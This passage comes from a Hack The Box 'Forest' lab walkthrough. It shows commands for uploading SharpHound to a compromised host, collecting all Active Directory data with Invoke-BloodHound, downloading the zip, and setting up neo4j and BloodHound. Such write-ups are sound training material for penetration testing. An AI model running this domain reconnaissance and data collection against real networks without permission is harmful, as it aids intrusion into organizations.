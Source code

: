 ```bash
upload SharpHound.ps1
```

Once uploaded, we will import and use the `Invoke-BloodHound` function to collect all the necessary information.

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

This will generate a compressed file containing all the _AD_ information. To download this file to our machine, we use the following command:

```bash
download <timestamp>_BloodHound.zip BloodHound.zip
```

![19](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/19.png){:class="blog-image" onclick="expandImage(this)"}

The next step is to import the compressed file generated by `SharpHound` into `BloodHound`. If we don’t have the tool installed, we can do the following:

```bash
sudo apt install neo4j bloodhound
```

_Neo4j_ is the graph database used by `BloodHound`. We will start it as follows:

```bash
sudo neo4j console
```
